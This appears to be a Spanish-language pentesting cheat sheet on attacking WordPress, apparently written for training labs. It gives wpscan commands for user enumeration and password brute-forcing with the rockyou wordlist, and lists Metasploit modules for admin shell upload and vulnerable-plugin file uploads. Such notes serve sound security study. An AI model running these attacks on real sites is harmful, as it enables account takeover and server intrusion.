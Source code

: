 enumeracion de usuarios:

```bash
wpscan –url http://192.168.1.105/wordpress/ -e u

wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

enumeracion de todo:

```bash
wpscan --url http://192.168.1.105/wordpress/ -e at –e ap –e u
```

Ataque de fuerza bruta:

Tener un archivo de posibles usuarios (**users.txt**).

```bash
wpscan --url http://192.168.1.105/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
```

Escaneo bajo un proxy:

```bash
wpscan --url http://192.168.1.105/wordpress/ --proxy http://127.0.0.1:8080
```

## METASPLOIT PAYLOADS

```
use exploit/unix/webapp/wp_admin_shell_upload
use auxiliary/scanner/http/wordpress_login_enum
use exploit/unix/webapp/wp_nmediawebsite_file_upload

# plugins
use exploit/unix/webapp/wp_slideshowgallery_upload
use exploit/unix/webapp/wp_wysija_newsletters_upload
```

## WordPress Structure

### FILE STRUCTURE

```bash
├── index.php
├── license.txt
├── readme.html
├── wp-activate.php
├── wp-admin
├── wp-blog-header.php
├── wp-comments-post.php
├── wp-config.php
├── wp-config-sample.php
├── wp-content
├── wp-cron.php
├── wp-includes
├── wp-links-opml.php
├── wp-load.php
├── wp-login.php
├── wp-mail.php
├── wp-settings.php
├── wp-signup.php
├── wp-trackback.php
└── xmlrpc.php
```
